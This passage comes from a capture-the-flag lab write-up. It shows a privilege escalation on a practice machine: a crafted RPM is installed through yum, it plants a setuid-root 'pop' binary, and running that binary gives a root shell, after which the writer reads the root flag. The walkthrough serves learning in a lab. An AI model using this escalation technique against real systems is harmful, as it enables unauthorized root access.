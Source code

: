 ```sh
Install  1 Package

Total size: 8.5 k
Installed size: 8.5 k
Is this ok [y/d/N]: y
Downloading packages:
Running transaction check
Running transaction test
Transaction test succeeded
Running transaction
  Installing : sploit-1.0-1.x86_64                                                                                        1/1 
  Verifying  : sploit-1.0-1.x86_64                                                                                        1/1 

Installed:
  sploit.x86_64 0:1.0-1                                                                                                       

Complete!
[jjameson@dailybugle ~]$ 

```


It seems to have succeded, let see if we have the expected way to rooting this room:

```sh
[jjameson@dailybugle ~]$ ls -al /usr/local/bin/
total 12
drwxr-xr-x.  2 root root   17 Aug 28 21:54 .
drwxr-xr-x. 12 root root  131 Dec 14  2019 ..
-rwsr-sr-x   1 root root 8744 Jan 18  2019 pop
```

We have a **pop** file we can execute now!

```sh
[jjameson@dailybugle ~]$ /usr/local/bin/pop
[root@dailybugle ~]# whoami
root
[root@dailybugle ~]# id
uid=0(root) gid=0(root) groups=0(root),1000(jjameson)
[root@dailybugle ~]# 

```

We made it! we rooted it! Let's grab that flag and get ready for a deserved time off the screen.


```sh
[root@dailybugle ~]# ls
user.txt  yumsploit.rpm
[root@dailybugle ~]# cd ..
[root@dailybugle home]# cd ..
[root@dailybugle /]# ls
bin  boot  dev  etc  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
[root@dailybugle /]# cd root
[root@dailybugle root]# ls
anaconda-ks.cfg  root.txt
[root@dailybugle root]# cat root.txt
eec{REDACTED_ROOT_FLAG}fa6f79
```
